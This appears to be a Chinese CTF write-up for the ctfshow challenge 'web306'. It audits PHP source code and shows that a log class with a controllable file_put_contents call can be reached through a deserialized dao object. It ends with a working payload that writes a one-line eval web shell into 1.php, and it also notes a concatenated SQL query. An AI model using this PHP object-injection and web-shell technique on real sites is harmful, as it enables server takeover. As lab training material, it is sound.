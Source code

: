 ```yaml
---
title: "[代码审计]实战篇:web306"
desc: TonyD0g
date: 2022-02-10 15:02:57
tags: 代码审计
---
```

<font size=4 >

###### [版本0x1] 
###### 2022-02-10

## web306:
#### 依旧自动化审计，图不放了
用了file_put_contents且变量可控,所以可能存在漏洞:
```
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-17 13:20:37
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-17 18:41:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
}

class dpt{
	public $name;
	public $address;
	public $build_year;
	public $have_cert="0";
	public $cert_num;
	public $phone;
	public function __construct($n,$a,$b,$h,$c,$p){
		$this->name=$n;
		$this->address=$a;
		$this->build_year=$b;
		$this->have_cert=$h;
		$this->cert_num=$c;
		$this->phone=$p;

	}
}
class log{
	public $title='log.txt';
	public $info='';
	public function loginfo($info){
		$this->info=$this->info.$info;
	}
	public function close(){
		file_put_contents($this->title, $this->info);
	}

}
?>
```
## 要想利用该漏洞，首先要找到调用close()函数的地方:

![avatar](https://s4.ax1x.com/2022/02/10/Htuc79.png)
## 所以只有dao.php了:
```
<?php
require 'config.php';
require 'class.php';

class dao{
	private $config;
	private $conn;

	public function __construct(){
		$this->config=new config();
		$this->init();
	}
	private function init(){
		$this->conn=new mysqli($this->config->get_mysql_host(),$this->config->get_mysql_username(),$this->config->get_mysql_password(),$this->config->get_mysql_db());
	}
	public function __destruct(){
		$this->conn->close();
	}

	public function get_user_password_by_username($u){
		//可能存在注入
		$sql="select sds_password from sds_user where sds_username='".$u."' order by id limit 1;";
		$result=$this->conn->query($sql);
		$row=$result->fetch_array(MYSQLI_BOTH);
		if($result->num_rows>0){
			return $row['sds_password'];
		}else{
			return '';
		}
	}

}
```
## 很明显是dao.php调用class.php去写日志.而index.php又包含了dao.php,所以在index.php就能直接利用反序列化漏洞写shell.
payload:
```
<?php
class log{
	public $title='1.php'; 
	public $info='<?php eval($_POST[1]);?>';
}

class dao{
	private $conn;
	function __construct(){
	    $this->conn=new log();
	}
}

$d =new dao();
echo base64_encode(serialize($d));
?>
```

![avatar](https://s4.ax1x.com/2022/02/10/Htu2kR.png)

</font>